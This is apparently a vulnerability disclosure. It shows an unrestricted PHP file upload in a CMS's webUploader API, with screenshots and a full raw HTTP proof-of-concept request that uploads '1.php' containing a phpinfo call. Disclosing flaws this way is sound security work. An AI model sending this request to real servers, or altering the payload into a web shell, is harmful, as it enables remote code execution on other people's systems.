 <img width="1032" height="814" alt="image" src="https://github.com/user-attachments/assets/f4ec4c27-9623-4114-b690-02cc6901bf31" />

Successfully uploaded

<img width="683" height="200" alt="image" src="https://github.com/user-attachments/assets/90449b3b-5494-4ec7-b55d-b27dbc89ca65" />

Visit the uploaded file to see
<img width="1133" height="1144" alt="image" src="https://github.com/user-attachments/assets/389cfda7-3430-4bbd-9c51-3060bd514dcd" />


# POC
```
POST /api/file/webUploader HTTP/1.1
Host: 192.168.1.88:8081
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryRandomString
Cookie: cms_session=r07ge2g66e1ukvc2illl0e7nph
Content-Length: 995

------WebKitFormBoundaryRandomString
Content-Disposition: form-data; name="id"

WU_FILE_0
------WebKitFormBoundaryRandomString
Content-Disposition: form-data; name="name"

1.php
------WebKitFormBoundaryRandomString
Content-Disposition: form-data; name="type"

application/octet-stream
------WebKitFormBoundaryRandomString
Content-Disposition: form-data; name="lastModifiedDate"

Mon, 11 Aug 2025 04:30:00 GMT
------WebKitFormBoundaryRandomString
Content-Disposition: form-data; name="size"

19
------WebKitFormBoundaryRandomString
Content-Disposition: form-data; name="md5value"

123456
------WebKitFormBoundaryRandomString
Content-Disposition: form-data; name="chunk"

0
------WebKitFormBoundaryRandomString
Content-Disposition: form-data; name="chunks"

1
------WebKitFormBoundaryRandomString
Content-Disposition: form-data; name="file"; filename="blob"
Content-Type: application/octet-stream

<?php phpinfo(); ?>

------WebKitFormBoundaryRandomString--
```
